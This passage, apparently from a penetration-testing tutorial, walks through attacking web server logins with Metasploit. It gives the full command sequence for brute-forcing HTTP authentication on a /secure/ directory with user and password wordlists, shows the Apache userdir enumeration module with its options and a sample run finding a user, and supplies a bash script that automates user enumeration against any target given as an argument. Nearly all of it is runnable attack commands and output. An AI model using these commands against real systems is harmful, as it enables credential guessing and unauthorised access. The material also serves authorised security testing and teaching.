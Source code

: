 ### Targeted Authentication Attack

```bash
# Configure for specific directory
msf6 auxiliary(scanner/http/http_login) > set AUTH_URI /secure/
msf6 auxiliary(scanner/http/http_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/http/http_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/http/http_login) > set THREADS 5
msf6 auxiliary(scanner/http/http_login) > set VERBOSE false
msf6 auxiliary(scanner/http/http_login) > run
```

## User Enumeration

### Apache User Directory Enumeration

```bash
msf6 > use auxiliary/scanner/http/apache_userdir_enum
msf6 auxiliary(scanner/http/apache_userdir_enum) > show options

Module options (auxiliary/scanner/http/apache_userdir_enum):

   Name        Current Setting                                  Required  Description
   ----        ---------------                                  --------  -----------
   Proxies                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80                                               yes       The target port (TCP)
   SSL         false                                            no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                                                yes       The number of concurrent threads
   USER_FILE   /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing users, one per line
   VHOST                                                        no        HTTP server virtual host

msf6 auxiliary(scanner/http/apache_userdir_enum) > run

[*] 192.168.1.100:80 - User found: rooty
```

### Advanced User Enumeration Script

```bash
#!/bin/bash

TARGET=$1
USER_LIST=${2:-"/usr/share/metasploit-framework/data/wordlists/common_users.txt"}

echo "[*] Enumerating web server users on $TARGET"

msfconsole -q -x "
workspace -a user_enum;
setg RHOSTS $TARGET;
use auxiliary/scanner/http/apache_userdir_enum;
set USER_FILE $USER_LIST;
run;
exit"
```

